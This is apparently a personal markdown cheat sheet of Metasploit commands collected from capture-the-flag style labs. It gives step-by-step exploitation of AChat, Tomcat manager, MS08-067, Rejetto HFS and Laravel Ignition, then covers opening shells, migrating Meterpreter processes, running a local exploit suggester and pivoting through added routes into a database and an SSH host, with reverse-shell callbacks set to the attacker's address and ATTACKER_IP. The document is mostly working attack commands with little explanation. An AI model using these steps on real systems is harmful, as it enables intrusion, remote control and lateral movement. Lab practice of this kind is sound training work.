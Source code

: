 # --> The random commands I collected


## Get box with msfconsole

search achat

use explot/windows/misc/achat_bof

show options  

set RHOST 10.10.10.74  

set LHOST tun0  

set LPORT 9001

run

---
<br/>


## Simple Exploit

```
msfconsole
use multi/http/tomcat_mgr_upload
exploit
```


## Exploit and Open msfconsole

```
--> I used msfconsole for this one since I couldn't get shellcode to work, here is a high level of my commands:
search ms08_067_netapi  
show options  
set RHOST --> this is the remote host to attack
set LHOST --> this is your host for the call back
check --> this acutally checks to see if rhost is vulnerable
run
--metaterperater will load--
shell --> to open command shell
```


## MetaSploit Module Commands:

```
msfconsole

search rejetto

use exploit/windows/http/rejetto_hfs_exec

show options

set Proxies http:127.0.0.1:8080

set RHOST 10.10.10.8

set SRVHOST 10.10.14.31

set SRVPORT 8088

set ReverseAllProxy true

run

meterpreter sysinfo

migrate 1788 --> Process number

set payload
```

## Msploit exploit suggester

search suggester
use post/multi/recon/local_exploit_suggester
set SESSION 1
run


## Hack a Web Server in a docker image, then pivot to the DB and host

```

use multi/php/ignition_laravel_debug_rce
check rhost=10.10.234.246 HttpClientTimeout=20
run rhost=10.10.234.246 lhost=ATTACKER_IP HttpClientTimeout=20
## At this point you will a basic shell
background
sessions
sessions -u -1
sessions
sessions -i -1
# At this point you will be loggecd into a Meterpreter session
resolve webservice_database
background
# Database IP
route add 172.28.101.51/32 -1
# Host IP
route add 172.17.0.1/32 -1
route print
# SSH inot host
use auxiliary/scanner/ssh/ssh_login
run ssh://USER:PASSWORD@172.17.0.1
sessions
# You should now see your ssh session
# Login to ssh session
sessions -i -1

```
